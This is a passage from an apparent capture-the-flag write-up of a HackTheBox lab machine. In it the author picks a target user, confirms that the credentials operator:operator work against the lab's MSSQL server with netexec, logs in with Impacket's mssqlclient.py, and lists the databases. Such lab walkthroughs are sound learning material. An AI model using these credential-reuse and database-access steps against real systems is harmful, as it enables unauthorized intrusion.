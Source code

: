 The `domain_users_by_group.html` file is a nice overview of the users to target:

[![image-20240313065640502](/img/image-20240313065640502.png)*Click for full size image*](/img/image-20240313065640502.png)

Raven is a good target to get shell over WinRM. Nothing else seems interesting.

#### MSSQL

The creds work for the database as well:

```

oxdf@hacky$ netexec mssql manager.htb -u operator -p operator
MSSQL       10.10.11.236    1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
MSSQL       10.10.11.236    1433   DC01             [+] manager.htb\operator:operator 

```

`mssqlclient.py` will connect, using the `-windows-auth` flag to say that it’s using the OS authentication, not creds within the DB:

```

oxdf@hacky$ mssqlclient.py -windows-auth manager.htb/operator:operator@manager.htb
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)>

```

There are four DBs:

```

SQL (MANAGER\Operator  guest@master)> select name from master..sysdatabases;
name     
------   
master
tempdb
model
msdb

```

All four are [default MSSQL databases](https://dataedo.com/kb/databases/sql-server/default-databases-schemas).
